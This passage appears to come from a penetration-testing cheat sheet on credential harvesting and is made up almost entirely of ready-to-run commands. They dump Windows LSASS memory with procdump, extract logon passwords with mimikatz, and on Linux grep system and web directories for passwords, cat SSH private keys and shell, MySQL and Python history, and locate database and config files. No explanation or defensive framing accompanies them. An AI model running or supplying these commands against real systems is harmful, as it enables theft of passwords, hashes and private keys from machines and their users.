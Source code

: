 #### Memory Credential Extraction
```cmd
# LSASS dump (requires admin)
tasklist | findstr lsass
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Use offline
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" exit

# Direct memory access (if admin)
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

### Linux Credential Harvesting

#### Configuration Files
```bash
# Common config files with passwords
grep -r "password" /etc/ 2>/dev/null
grep -r "pass" /var/www/ 2>/dev/null
find / -name "*.conf" -exec grep -l "password" {} \; 2>/dev/null

# SSH keys
find / -name "id_rsa" 2>/dev/null
find / -name "id_dsa" 2>/dev/null
find / -name "*.pem" 2>/dev/null
cat ~/.ssh/id_rsa
cat ~/.ssh/authorized_keys

# History files
cat ~/.bash_history
cat ~/.mysql_history  
cat ~/.python_history
find /home -name ".*history" -exec ls -la {} \; 2>/dev/null

# Configuration files
cat ~/.bashrc
cat ~/.profile
cat /etc/profile
cat /etc/bash.bashrc
```

#### Database and Application Files
```bash
# Database files
find / -name "*.db" 2>/dev/null
find / -name "*.sqlite" 2>/dev/null
find / -name "*.sql" 2>/dev/null

# Web application files
find /var/www -name "config*" -o -name "*.conf" -o -name "*.config" 2>/dev/null
grep -r "password\|pass\|pwd" /var/www/ 2>/dev/null

# Application config directories
ls -la /opt/
ls -la /etc/
find /etc -name "*config*" -o -name "*.conf" 2>/dev/null
```
